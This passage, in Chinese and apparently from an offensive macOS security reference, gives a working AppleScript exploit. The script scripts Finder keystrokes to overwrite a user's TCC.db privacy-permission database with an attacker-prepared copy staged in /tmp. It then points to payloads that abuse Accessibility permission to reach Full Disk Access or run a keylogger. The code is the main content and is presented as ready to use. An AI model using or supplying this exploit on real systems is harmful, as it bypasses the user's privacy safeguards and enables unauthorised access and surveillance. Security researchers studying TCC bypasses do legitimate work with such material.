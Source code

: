 Finder 覆盖用户 TCC.db 的示例：

```applescript
-- store the TCC.db file to copy in /tmp
osascript <<EOF
tell application "System Events"
-- Open Finder
tell application "Finder" to activate

-- Open the /tmp directory
keystroke "g" using {command down, shift down}
delay 1
keystroke "/tmp"
delay 1
keystroke return
delay 1

-- Select and copy the file
keystroke "TCC.db"
delay 1
keystroke "c" using {command down}
delay 1

-- Resolve $HOME environment variable
set homePath to system attribute "HOME"

-- Navigate to the Desktop directory under $HOME
keystroke "g" using {command down, shift down}
delay 1
keystroke homePath & "/Library/Application Support/com.apple.TCC"
delay 1
keystroke return
delay 1

-- Check if the file exists in the destination and delete if it does (need to send keystorke code: https://macbiblioblog.blogspot.com/2014/12/key-codes-for-function-and-special-keys.html)
keystroke "TCC.db"
delay 1
keystroke return
delay 1
key code 51 using {command down}
delay 1

-- Paste the file
keystroke "v" using {command down}
end tell
EOF
```

#### 将 `kTCCServiceAccessibility` 提升至 FDA\*

查看此页面以获取一些[**滥用辅助功能权限的有效载荷**](macos-tcc-payloads.md#accessibility)来提升至 FDA\* 或例如运行键盘记录器。
